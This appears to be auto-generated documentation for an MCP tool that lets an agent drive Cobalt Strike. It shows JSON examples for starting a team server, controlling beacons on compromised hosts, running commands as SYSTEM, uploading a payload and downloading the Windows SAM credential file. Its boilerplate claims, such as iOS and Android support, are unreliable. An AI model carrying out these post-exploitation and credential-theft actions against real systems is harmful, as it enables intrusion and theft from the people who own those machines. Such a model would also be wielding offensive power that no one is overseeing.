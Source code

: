 # Cobalt Strike Tool

## Overview
The **Cobalt Strike Tool** is a comprehensive Cobalt Strike integration utility that provides advanced threat simulation and red team operations capabilities. It offers cross-platform support and enterprise-grade Cobalt Strike integration features.

## Features
- **Team Server Management**: Advanced Cobalt Strike team server management and control
- **Beacon Management**: Comprehensive beacon management and interaction
- **Post-Exploitation**: Advanced post-exploitation modules and capabilities
- **Cross-Platform**: Windows, Linux, macOS, Android, iOS support
- **Red Team Operations**: Sophisticated red team operations and attack simulation
- **Security Testing**: Advanced security testing and penetration testing capabilities

## Usage

### Team Server Management
```bash
# Start team server
{
  "action": "start_teamserver",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Connect client
{
  "action": "connect_client",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Beacon Management
```bash
# List beacons
{
  "action": "list_beacons"
}

# Interact with beacon
{
  "action": "interact_beacon",
  "beacon_id": "beacon_001"
}

# Execute command
{
  "action": "execute_command",
  "beacon_id": "beacon_001",
  "command": "whoami"
}
```

### Post-Exploitation
```bash
# Upload file
{
  "action": "upload_file",
  "beacon_id": "beacon_001",
  "file_path": "./payload.exe"
}

# Download file
{
  "action": "download_file",
  "beacon_id": "beacon_001",
  "file_path": "C:\\Windows\\System32\\config\\SAM"
}

# Take screenshot
{
  "action": "screenshot",
  "beacon_id": "beacon_001"
}
```

## Parameters

### Team Server Parameters
- **action**: Cobalt Strike action to perform
- **teamserver_host**: Team server host IP
- **teamserver_port**: Team server port (default: 50050)
- **client_password**: Client connection password

### Beacon Parameters
- **beacon_id**: Beacon ID for interaction
- **command**: Command to execute on beacon
- **file_path**: File path for upload/download operations

### Post-Exploitation Parameters
- **target_host**: Target host for lateral movement
- **listener_name**: Listener name
- **listener_type**: Listener type (http, https, dns, smb, tcp)
- **payload_type**: Payload type for generation

## Output Format
```json
{
  "success": true,
  "action": "list_beacons",
  "result": {
    "beacons": [
      {
        "beacon_id": "beacon_001",
        "host": "192.168.1.50",
        "user": "admin",
        "process": "explorer.exe",
        "status": "active"
      }
    ],
    "total_beacons": 1
  }
}
```

## Cross-Platform Support
- **Windows**: Full support with Windows Cobalt Strike operations
- **Linux**: Complete functionality with Linux Cobalt Strike operations
- **macOS**: Full feature support with macOS Cobalt Strike operations
- **Android**: Mobile-optimized interface
- **iOS**: Native iOS integration

## Examples

### Example 1: Team Server Start
```bash
# Start team server
{
  "action": "start_teamserver",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Result
{
  "success": true,
  "result": {
    "teamserver_host": "192.168.1.100",
    "teamserver_port": 50050,
    "status": "started",
    "client_password": "password123"
  }
}
```

### Example 2: Beacon Interaction
```bash
# Interact with beacon
{
  "action": "interact_beacon",
  "beacon_id": "beacon_001"
}

# Result
{
  "success": true,
  "result": {
    "beacon_id": "beacon_001",
    "status": "connected",
    "host": "192.168.1.50",
    "user": "admin"
  }
}
```

### Example 3: Command Execution
```bash
# Execute command
{
  "action": "execute_command",
  "beacon_id": "beacon_001",
  "command": "whoami"
}

# Result
{
  "success": true,
  "result": {
    "beacon_id": "beacon_001",
    "command": "whoami",
    "output": "NT AUTHORITY\\SYSTEM",
    "status": "executed"
  }
}
```

## Error Handling
- **Team Server Errors**: Proper handling of team server communication issues
- **Beacon Errors**: Secure handling of beacon interaction failures
- **Command Errors**: Robust error handling for command execution failures
- **File Errors**: Safe handling of file upload/download problems

## Related Tools
- **Metasploit Framework**: Metasploit framework integration tools
- **Empire PowerShell**: Empire PowerShell post-exploitation tools
- **Red Team Operations**: Red team operations and attack simulation tools

## Version
- **Current Version**: 1.0.0
- **Last Updated**: September 2025
- **Compatibility**: MCP God Mode v1.9+

## Support
For issues or questions about the Cobalt Strike Tool, please refer to the main MCP God Mode documentation or contact the development team.
